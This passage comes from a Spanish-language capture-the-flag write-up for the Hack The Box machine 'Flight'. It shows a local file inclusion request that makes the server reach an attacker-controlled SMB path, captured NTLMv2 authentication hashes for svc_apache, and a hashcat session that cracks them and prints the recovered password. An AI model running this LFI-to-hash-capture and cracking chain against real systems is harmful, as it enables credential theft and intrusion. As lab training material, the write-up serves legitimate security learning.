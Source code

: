 Ahora, vamos a referenciarlo en el LFI usando la dirección //<your-ipaddress>/resource/index.html. Nota las barras normales porque no podemos usar las invertidas ya que están siendo filtradas por el script vulnerable.

`http://school.flight.htb/index.php?view=//10.10.14.39/resource/index.html`

Al mandar esta petición al servidor pues...

{% highlight bash %}
[*] Incoming connection (10.10.11.187,53159)
[*] AUTHENTICATE_MESSAGE (flight\svc_apache,G0)
[*] User G0\svc_apache authenticated successfully
[*] svc_apache::flight:aaaaaaaaaaaaaaaa:a5dea54e00e89c65b7374a3db9df79eb:010100000000000000ad2c5eb37fd901bc9cab85092ecd2a0000000001001000500054004300580065005300530059000300100050005400430058006500530053005900020010004b00520050006b004300620048005300040010004b00520050006b0043006200480053000700080000ad2c5eb37fd90106000400020000000800300030000000000000000000000000300000f37fb59870b03702d1038e537042b995e28d50444162f1a69a511a324a4a3fa40a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00330039000000000000000000
[*] Closing down connection (10.10.11.187,53159)
[*] Remaining connections []
[*] Incoming connection (10.10.11.187,53160)
[*] AUTHENTICATE_MESSAGE (flight\svc_apache,G0)
...
{% endhighlight %}

Obtenemos tres intentos de autenticación del usuario svc_apache, entre sus intentos se encuentra su hash NTLMv2, asi que vamos a intentar crackearlo con hashcat

{% highlight bash %}
# hashcat hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt

SVC_APACHE::flight:aaaaaaaaaaaaaaaa:a5dea54e00e89c65b7374a3db9df79eb:010100000000000000ad2c5eb37fd901bc9cab85092ecd2a0000000001001000500054004300580065005300530059000300100050005400430058006500530053005900020010004b00520050006b004300620048005300040010004b00520050006b0043006200480053000700080000ad2c5eb37fd90106000400020000000800300030000000000000000000000000300000f37fb59870b03702d1038e537042b995e28d50444162f1a69a511a324a4a3fa40a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00330039000000000000000000:S@Ss!K@*t13
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: SVC_APACHE::flight:aaaaaaaaaaaaaaaa:a5dea54e00e89c6...000000
Time.Started.....: Fri May  5 20:43:10 2023 (16 secs)
Time.Estimated...: Fri May  5 20:43:26 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   650.3 kH/s (1.35ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 10663936/14344384 (74.34%)
Rejected.........: 0/10663936 (0.00%)
Restore.Point....: 10661888/14344384 (74.33%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: SAESAR -> S4L15
Hardware.Mon.#1..: Temp: 75c Util: 85%

Started: Fri May  5 20:43:05 2023
Stopped: Fri May  5 20:43:27 2023
{% endhighlight %}

